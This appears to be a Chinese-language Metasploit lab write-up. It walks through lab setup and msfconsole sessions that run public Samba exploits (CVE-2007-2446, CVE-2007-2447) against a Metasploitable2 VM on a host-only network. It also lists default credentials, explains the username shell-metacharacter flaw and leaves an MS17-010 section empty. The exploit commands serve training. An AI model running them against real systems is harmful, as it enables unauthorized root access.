







# 渗透测试
* 基于Metasploit
## 相关知识
### PTES标准中的渗透测试阶段
渗透测试执行标准PTES(Penetration Testing Execution Standard)中将渗透测试分为以下几个阶段：
1. 前期交互阶段
2. 情报搜集阶段
3. 威胁建模阶段
4. 漏洞分析阶段
5. 渗透攻击阶段
6. 后渗透攻击阶段
7. 报告阶段

### 渗透测试类型
1. 白盒测试 
2. 黑盒测试

黑盒测试更接近于黑客攻击过程，但是要求的技术能力更高。


## 在Kali中使用Metasploit
1. 应用程序菜单中启动 Metasploit。 从应用程序菜单启动 Metasploit后，将自动设置PostgreSQL数据库，它将创建数据库用户，创建msf和msf_test数据库，配置Metasploit使用数据库。
2. 手动设置
```bash
sudo apt update
sudo apt -y install autoconf bison build-essential curl git-core libapr1
libaprutil1 libcurl4-openssl-dev libgmp3-dev libpcap-dev libpq-dev
libreadline6-dev libsqlite3-dev libssl-dev libsvn1 libtool libxml2 libxml2-
dev libxslt-dev libyaml-dev locate ncurses-dev openssl postgresql
postgresql-contrib wget xsel zlib1g zlib1g-dev
curl -sSL https://rvm.io/mpapis.asc | gpg --import -
curl -L https://get.rvm.io | bash -s stable
source ~/.rvm/scripts/rvm
cd /opt
sudo git clone https://github.com/rapid7/metasploit-framework.git
sudo chown -R `whoami` /opt/metasploit-framework
cd metasploit-framework
rvm --install $(cat .ruby-version)
gem install bundler
bundle install

# 启动命令
service postgresql start && msfdb init && msfconsole
```
3. 直接在终端中运行msfconsole启动Metasploit，需要手动的启动命令

## 搭建渗透测试实验环境



* Kali Linux
* [Linux服务器](https://link.juejin.im/?target=https%3A%2F%2Fsourceforge.net%2Fprojects%2Fmetasploitable%2Ffiles%2FMetasploitable2%2F)
  * ```The default login and password is msfadmin:msfadmin.```
* [Windows 10客户机](https://link.juejin.im/?target=https%3A%2F%2Fdeveloper.microsoft.com%2Fen-us%2Fmicrosoft-edge%2Ftools%2Fvms%2F)
  * 微软开发者网站下载 90天评估版

* [Windows Server](https://github.com/rapid7/metasploitable3)
  * 通过Metasploitable 3来构建。在Windows上运行build_win2008.sh进行构建 

* Kali配置远程SSH登录
```bash
# 使用passwd命令修改root密码
passwd

# 删除当前的SSH主机密钥，然后使用dpkg-reconfigure openssh-server命令重新生成密钥
rm /etc/ssh/ssh_host_*

dpkg-reconfigure openssh-server 
Creating SSH2 RSA key; this may take some time ...

# 编辑OpenSSH服务配置文件：/etc/ssh/sshd_config，将#PermitRootLogin without-password 更改为PermitRootLogin yes，从而允许root远程登录

# 设置SSH服务开机启动
systemctl enable ssh

# 使用Putty连接

```


# 实验 攻击Linux服务器
## 实验目标
* 使用 Metasploitable2作为靶机，利用 Samba服务漏洞对Linux目标机进行渗透攻击。
## 实验环境
* Virtual Box
  * 攻击者
    * Kali Linux 
    * Hostonly 192.168.56.5/24
  * 靶机
    * Metasploitable2(linux服务器)
    * Hostonly 192.168.56.7/24 

## 实验过程
### 信息搜集
```bash
# ssh连接
# 启动
service postgresql start && msfdb init && msfconsole

# namp扫描，保存为XML文档
nmap -Pn -A -oX report 192.168.56.7
# 执行 db_import PATH进行导入
db_import /root/report

# 使用 servives命令查找之前nmap扫描结果，并过滤 139和 445端口
services -c port,info -p 139,445 192.168.56.7
```


### 选择漏洞

知道了目标 Samba的版本信息，可以查找相对应的漏洞，在[CVE](https://www.cvedetails.com)中找到有关 Samba3.0.20漏洞的细节，如下：


选择CVE使用search命令查找对应漏洞的攻击模块。




### 攻击漏洞
```bash
# 选择最后一个攻击模块
 use exploit/solaris/samba/lsa_transnames_heap

 # info查看模块信息
 msf exploit(solaris/samba/lsa_transnames_heap) > info
# 输出
       Name: Samba lsa_io_trans_names Heap Overflow
     Module: exploit/solaris/samba/lsa_transnames_heap
   Platform: Solaris
       Arch:
 Privileged: Yes
    License: Metasploit Framework License (BSD)
       Rank: Average
  Disclosed: 2007-05-14

Provided by:
  Ramon de C Valle <rcvalle@metasploit.com>
  Adriano Lima <adriano@risesecurity.org>
  hdm <x@hdm.io>

Available targets:
  Id  Name
  --  ----
  0   Solaris 8/9/10 x86 Samba 3.0.21-3.0.24
  1   Solaris 8/9/10 SPARC Samba 3.0.21-3.0.24
  2   DEBUG

Basic options:
  Name     Current Setting  Required  Description
  ----     ---------------  --------  -----------
  RHOST                     yes       The target address
  RPORT    445              yes       The SMB service port (TCP)
  SMBPIPE  LSARPC           yes       The pipe name to use

Payload information:
  Space: 1024

Description:
  This module triggers a heap overflow in the LSA RPC service of the
  Samba daemon. This module uses the TALLOC chunk overwrite method
  (credit Ramon and Adriano), which only works with Samba versions
  3.0.21-3.0.24. Additionally, this module will not work when the
  Samba "log level" parameter is higher than "2".

References:
  https://cvedetails.com/cve/CVE-2007-2446/
  OSVDB (34699)

# 查看所需参数
msf exploit(solaris/samba/lsa_transnames_heap) > show missing
# 输出
Module options (exploit/solaris/samba/lsa_transnames_heap):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   RHOST                   yes       The target address

# 发现只需要设置目标IP地址即可
msf exploit(solaris/samba/lsa_transnames_heap) > set RHOST 192.168.56.7
# 输出
RHOST => 192.168.56.7

# 攻击，执行exploit即可
msf exploit(solaris/samba/lsa_transnames_heap) > exploit
# 输出略
```
攻击成功，但是没有产生会话。




为了更加直观，尝试攻击可以产生会话的漏洞，选择另一个攻击模块。
```bash
# 利用Samba3.0.20到3.0.25rc中的命令执行漏洞
msf >  use exploit/multi/samba/usermap_script
msf exploit(multi/samba/usermap_script) > info

#输出
       Name: Samba "username map script" Command Execution
     Module: exploit/multi/samba/usermap_script
   Platform: Unix
       Arch: cmd
 Privileged: Yes
    License: Metasploit Framework License (BSD)
       Rank: Excellent
  Disclosed: 2007-05-14

Provided by:
  jduck <jduck@metasploit.com>

Available targets:
  Id  Name
  --  ----
  0   Automatic

Basic options:
  Name   Current Setting  Required  Description
  ----   ---------------  --------  -----------
  RHOST                   yes       The target address
  RPORT  139              yes       The target port (TCP)

Payload information:
  Space: 1024

Description:
  This module exploits a command execution vulnerability in Samba
  versions 3.0.20 through 3.0.25rc3 when using the non-default
  "username map script" configuration option. By specifying a username
  containing shell meta characters, attackers can execute arbitrary
  commands. No authentication is needed to exploit this vulnerability
  since this option is used to map usernames prior to authentication!

References:
  https://cvedetails.com/cve/CVE-2007-2447/
  OSVDB (34700)
  http://www.securityfocus.com/bid/23972
  http://labs.idefense.com/intelligence/vulnerabilities/display.php?id=534
  http://samba.org/samba/security/CVE-2007-2447.html

# 配置参数
msf exploit(multi/samba/usermap_script) > show missing
# 输出
Module options (exploit/multi/samba/usermap_script):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   RHOST                   yes       The target address

msf exploit(multi/samba/usermap_script) > set RHOST 192.168.56.7
# 输出
RHOST => 192.168.56.7

# 攻击
msf exploit(multi/samba/usermap_script) > exploit

```
攻击成功，并且与靶机建立了会话，获得了root权限。




### 漏洞原理
第二次的攻击中，Samba是用于 Linux和 Windows之间的打印和文件共享的服务。 Samba3.0.0至 3.0.25rc3的 smbd中的 MS-RPC功能允许远程攻击者通过 SamrChangePassword功能的 shell元字符执行任意命令，当启用 smb.conf中“用户名映射脚本”选项时(不是默认启用的)，允许远程认证的用户通过远程打印机中的其他 MS-RPC功能的外部元字符执行命令，以及文件共享管理。该漏洞攻击模块通过指定一个用户名包含 shell元字符,攻击者可以执行任意命令。 因为此选项用于在身份验证之前映射用户名，所以不需要身份验证就可以利用此漏洞。


# 实验 MS17-010漏洞的利用
## 实验目标
* MS17-010（永恒之蓝）是近年来严重的远程代码执行漏洞，最终获得shell权限和管理员权限。
## 实验环境
* Virtual Box
  * 攻击者
    * Kali Linux 
    * Hostonly 192.168.56.5/24
  * 靶机
    * Windows 7 sp1 x64
    * Hostonly 

## 实验过程


# 参考
* 《Metasploit渗透测试指南》(美)David Kennedy Jim O'Gorman Devon Kearns Mati Aharoni 
* 《Metasploit Penetration Testing Cookbook - Third Edition》Abhinav Singh , Monika Agarwal, Et al
* [环境构建](https://www.bilibili.com/read/cv2778884/)
* [命令入门](http://topspeedsnail.com/kali-linux-metasploit-base-use/)
* [相关实验](https://www.freebuf.com/column/203394.html)
* [相关实验](https://laucyun.com/a6cb3c752b0fc10f0a9eeef01f7a5f76.html)
* [Microsoft 安全公告 MS17-010 - 严重 | Microsoft Docs](https://docs.microsoft.com/zh-cn/security-updates/Securitybulletins/2017/ms17-010)